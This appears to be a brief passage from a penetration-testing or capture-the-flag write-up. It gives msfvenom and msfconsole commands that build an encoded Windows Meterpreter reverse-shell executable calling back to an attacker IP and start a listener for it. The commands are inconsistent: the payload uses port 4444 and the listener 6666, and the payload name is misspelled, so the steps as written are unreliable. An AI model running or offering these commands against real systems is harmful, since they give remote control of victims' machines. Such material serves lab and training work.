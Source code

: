 To elevate the netcat shell to a metrpeter shell:

Use **msfvenom** to generate a shell executable:
```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.28.137 LPORT=4444 -f exe -o shell.exe
```
 Then use **msfconsole** to open  a metrpeter session listener:
 ```
 use exploit/multi/handler
 set payload windows/meterpeter/reverse_tcp
 set LHOST 10.11.28.137
 set LPORT 6666
 exploit
 ```
